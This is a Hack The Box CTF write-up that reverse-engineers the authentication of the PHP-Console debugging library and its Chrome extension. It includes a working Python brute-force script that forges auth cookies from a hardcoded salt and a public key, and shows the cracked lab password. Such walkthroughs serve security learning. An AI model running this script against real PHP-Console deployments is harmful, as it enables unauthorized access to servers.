

# Console (40 Points)
# Subtitle: Could you please check the console of your Chrome? 


# First view
When you open the web page, you will notice a phpinfo() page with:
```
Your IP is 10.255.0.2

Make sure to load php-console in order to be prompted for a password
```

The first thing that came in my mind, was to look for this ```php-console```, probably in ```/php-console?some_rce_args=cat flag```, but nop, it's far to be so easy. So i searched for ```php-console``` keyword, and i came up in this very crazy library [PHP-Console](https://github.com/barbushin/php-console).

## PHP-Console

This library allows you to debug the PHP code running through your browser, looks very weird and insecure, right? So, this PHP-Console has another client tool for chrome, it`s an [extension](https://chrome.google.com/webstore/detail/php-console/nfhmhhlpfleoednkpnnnkolmclajemef) that communicate to the PHP-Console server.

Both libraries are ***open source*** which allows us to inspect the source code and try to find some vuln that we can explore or take advantage of. But let's try to understand how the Auth works.

***Disclamer*** As a developer too, this tools looks very useful when you are ```developing``` something in PHP, and should not be deployed in production (obvious).

## Chrome Extension

When you access the website now, you will see a key icon, that means that this PHP-Console is "protected"



If you type anything inside this box, the page will be reloaded and nothing will happen. Now let's analyze all the communication workflow with/without this extension.

So, this is my request headers without the extension php-console:
```
GET / HTTP/1.1
Host: docker.hackthebox.eu:32741
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/80.0.3987.163 Chrome/80.0.3987.163 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: php-console-server=5
```
This is the response ***without*** the extension:
```
HTTP/1.1 200 OK
Date: Sat, 18 Apr 2020 18:11:40 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.2.28
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 10694
Keep-Alive: timeout=5, max=99
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```


Now take a look into my request ***with*** the extension:
```
GET / HTTP/1.1
Host: docker.hackthebox.eu:32741
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/80.0.3987.163 Chrome/80.0.3987.163 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://docker.hackthebox.eu:32741/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: php-console-server=5; php-console-client=eyJwaHAtY29uc29sZS1jbGllbnQiOjV9
```
Response:
```
HTTP/1.1 200 OK
Date: Sat, 18 Apr 2020 18:11:47 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.2.28
PHP-Console-Postpone: {"protocol":5,"isPostponed":true,"id":"8737403131977641650632750738"}
PHP-Console: {"protocol":5,"auth":{"publicKey":"d1d58b2f732fd546d9507da275a71bddc0c2300a214af3f3f3a5f5f249fe275e","isSuccess":false},"docRoot":null,"sourcesBasePath":null,"getBackData":null,"isLocal":null,"isSslOnlyMode":false,"isEvalEnabled":null,"messages":[]}
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 10694
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```


In our request, we have new cookies, php-console-server and php-console-client, php-console-server looks like the version of that addon and the php-console-client is base64 encoded. But before we decode that, let's try some random password and see if the cookie itself changes.

New cookie with random password:

```php-console-client=eyJwaHAtY29uc29sZS1jbGllbnQiOjUsImF1dGgiOnsicHVibGljS2V5IjoiZDFkNThiMmY3MzJmZDU0NmQ5NTA3ZGEyNzVhNzFiZGRjMGMyMzAwYTIxNGFmM2YzZjNhNWY1ZjI0OWZlMjc1ZSIsInRva2VuIjoiZDhjMzkyM2FkMWI5ZjJmMmJlZTQ2MzE2ZjEwNDM5Y2M3MGNiYTNkNTIxNDg2YWE3NWIwMjYyMmM2NTNlMDVkMCJ9fQ==```

Good, now lets decode that and see what the extension is saving as a cookie:

```{"php-console-client":5,"auth":{"publicKey":"d1d58b2f732fd546d9507da275a71bddc0c2300a214af3f3f3a5f5f249fe275e","token":"d8c3923ad1b9f2f2bee46316f10439cc70cba3d521486aa75b02622c653e05d0"}}```


Ok, lets take a breath now, i took about 5-6 hours to beat this challenge, because the way the authentication works here is a bit crazy, the workflow is

```
+--------------+                +--------------+               +---------------------------+
|              |                |              |               |PHP-Console validate Cookie|
| Get Password |                |Generate Token|  Post request |                           |
|              +----------------+Set as Cookie +--------------->                           |
|              |                |              |               |                           |
|              |                |              +<--------------+                           |
+--------------+                +--------------+               +---------------------------+
```

Ok, now let's dig inside the extension code, it's easy because it's an [open source](https://github.com/barbushin/php-console-extension) extension so we don't need to dig into the source files in browser/unzip the extension :)


I want to authenticate this, so the auth file is in ```js/auth.js```, and there is a bunch of functions, but let's focused in the good ones: ```getPasswordHash```, ```getAuthToken```

Password hash:
```js
function getPasswordHash(password) {
		return window['CryptoJS']['SHA256'](password + 'NeverChangeIt:)').toString();
}
```

So the password hash, is a sha256 hash with a [salt](https://en.wikipedia.org/wiki/Salt_(cryptography)), the salt is ```NeverChangeIt:)```

Token generator:
```js
this.getAuthToken = function() {
    if(this.hash && this.publicKey) {
        return window['CryptoJS']['SHA256'](this.hash + this.publicKey).toString();
    }
};
```
And the token is, a sha256 hash with our passwordhash + publickey

## Generating our in Python

```python
>>> import hashlib
>>> password="123456"
>>> salt="NeverChangeIt:)"
>>> password_hash = hashlib.sha256(password.encode()+salt.encode()).digest().hex()
>>> password_hash
'd6b9942d933f39a7ffc037e0d7a590b588e69e2d150cc495b3ebad5b45b78e89'
>>> pub_key="d1d58b2f732fd546d9507da275a71bddc0c2300a214af3f3f3a5f5f249fe275e"
>>> token = hashlib.sha256(password_hash.encode()+pub_key.encode()).digest().hex()
>>> token
'708a7032509aed6adf0556237b842491c0fe990c58b7bc66d36c30a6004c5b09'
>>> 
```

***The public key is calculate based in our ip address(in this case, the hackthebox reverse proxy one), i will not enter in all details but you can take a look [here](https://github.com/barbushin/php-console/blob/aaf84d32782ef6122732b43b1e26cb15fd12f7c5/src/PhpConsole/Auth.php#L72) in the php-console source code, it's very simple***


Now i will enter 123456 in the extension and see if i can get the same token, take a look at our request:

```
Cookie: php-console-server=5; php-console-client=eyJwaHAtY29uc29sZS1jbGllbnQiOjUsImF1dGgiOnsicHVibGljS2V5IjoiZDFkNThiMmY3MzJmZDU0NmQ5NTA3ZGEyNzVhNzFiZGRjMGMyMzAwYTIxNGFmM2YzZjNhNWY1ZjI0OWZlMjc1ZSIsInRva2VuIjoiNzA4YTcwMzI1MDlhZWQ2YWRmMDU1NjIzN2I4NDI0OTFjMGZlOTkwYzU4YjdiYzY2ZDM2YzMwYTYwMDRjNWIwOSJ9fQ==
```
Decoding:

```
{"php-console-client":5,"auth":{"publicKey":"d1d58b2f732fd546d9507da275a71bddc0c2300a214af3f3f3a5f5f249fe275e","token":"708a7032509aed6adf0556237b842491c0fe990c58b7bc66d36c30a6004c5b09"}}
```

Good!! Now its possible to generate our custom ```brute force``` script :), i took a deep and long breath, made some coffe and started to code. And i came up with this php-console bruteforce script!

```python
import hashlib
import sys

import json,base64
import requests


class PHP_ConsoleAuth:
    def __init__(self, password, salt, remote_addr = None, pub_key = None):
        self.password = password
        self.salt = salt
        self.remote_addr = remote_addr
        self.pass_hash = None
        self.token = None   
        self.pub_key = pub_key

    
    def getToken(self):
        self.token =  hashlib.sha256(self.pass_hash.encode() + self.pub_key.encode()).digest().hex()
        return self.token
    
    def setPassword(self, password):
        self.password = password

    def calcPassHash(self):
        self.pass_hash = hashlib.sha256(self.password.encode() + self.salt.encode()).digest().hex()
        return self.pass_hash

"""
Auth lib -> https://github.com/barbushin/php-console/blob/master/src/PhpConsole/Auth.php

"""
if __name__ == '__main__':
    
    SALT = 'NeverChangeIt:)'
    # Pub key is unique because its the sha256sum(clientUID + passwordHash) and the clientUI is the Remote Address, in our case is a fixed one
    # Extracted using chrome extension
    PUB_KEY = "d1d58b2f732fd546d9507da275a71bddc0c2300a214af3f3f3a5f5f249fe275e" 
    passwords_list = sys.argv[2]
    hackthebox_url = sys.argv[1]

    auth = PHP_ConsoleAuth(None, SALT, pub_key=PUB_KEY)
    
    success = False

    print("[+] Starting bruteforce on {}  PHP-Console [+]".format(hackthebox_url))
    
    with open(passwords_list, 'r', errors='ignore') as wordlist:
        for password in wordlist.readlines():
            if not password: continue
            password = password.rstrip()
            auth.setPassword(password) 
            auth.calcPassHash()

        
            print("[+] Trying {} [+]".format(password))
            token = auth.getToken()
            json_req = {
                "php-console-client": 5,
                "auth": {
                    "publicKey": PUB_KEY,
                    "token": token 
                } 
            }

            pack = base64.b64encode(json.dumps(json_req).encode()).decode()
            cookie = {"php-console-server": "5", "php-console-client": pack}
            req = requests.post(hackthebox_url, cookies=cookie)

            php_console_res = req.headers.get('PHP-Console', None)
            if php_console_res is None:
                print("Is this really running PHP-CONSOLE ?")
                sys.exit(1)
            
            php_console_res = json.loads(php_console_res)
            success = php_console_res['auth']['isSuccess']

            if success:        
                print("[+] Cracked! Password -> {} [+]".format(password))
                break


```
I downloaded the classic [rockyou.txt](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) wordlist, and run against our target:

```shell
$ python3 brute.py docker.hackthebox.eu:32741 rockyou.txt
...
[+] Cracked! Password -> poohbear [+]

```


Now enter the password, and the flag will be in the alert! 


I don't know if i can post the flag here, but the flag will be in the alert!

Thanks! i need to sleep now...